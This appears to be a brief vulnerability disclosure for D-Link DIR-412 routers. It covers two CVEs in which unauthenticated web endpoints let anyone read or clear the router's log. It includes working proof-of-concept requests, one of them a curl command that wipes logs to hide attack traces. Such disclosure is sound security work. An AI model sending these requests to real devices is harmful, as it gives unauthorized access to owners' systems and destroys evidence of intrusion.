


## info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

### CVE-2019-17511
Poc1: http://targetip/log_get.php
Attackers can get log file by this request.

### CVE-2019-17512
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.

